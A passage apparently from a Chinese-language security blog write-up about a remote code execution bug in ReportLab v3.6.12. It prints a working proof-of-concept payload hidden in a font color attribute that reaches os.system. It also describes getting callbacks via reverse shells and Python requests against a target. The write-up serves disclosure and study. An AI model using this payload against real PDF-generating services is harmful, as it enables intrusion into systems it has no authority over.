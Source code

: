     #                },
    
    #            )
    
    #        ]
    
    #    ]
    
    #    for orgTypeFun in [type(type(1))]
    
    #]
    
    add_paragraph("""
    
                <para>
    
                  <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
    
                    exploit
    
                    </font>
    
                </para>""", content)
    
    build_document(doc, content)
    
    generic
    
    1.86 KB
    
    © Guge's Blog

![]()

可以看到该漏洞在reportlab v3.6.12中被成功触发。

那么让我们来看看修复版本中会发生什么：

![]()

看到错误了吗？漏洞利用失败。  
当在目标中使用相同的 poc 时，没有显示错误，pdf 已成功生成，这表明他们确实使用易受攻击的版本，否则会显示错误。

另一位白帽@rootxharsh曾遇到了类似的情况，其中curl，wget，ping不起作用，因此得出的结论是Chrome
浏览器进程可能是在启用了沙盒的情况下运行的，但事实上后来当另一位白帽@iamnoooob做同样检测时，他使用了反弹 shell 成功收到回调信息。

因此回到目标应用中，curl 等不起作用，那么为什么不尝试使用 python requests 模块呢？

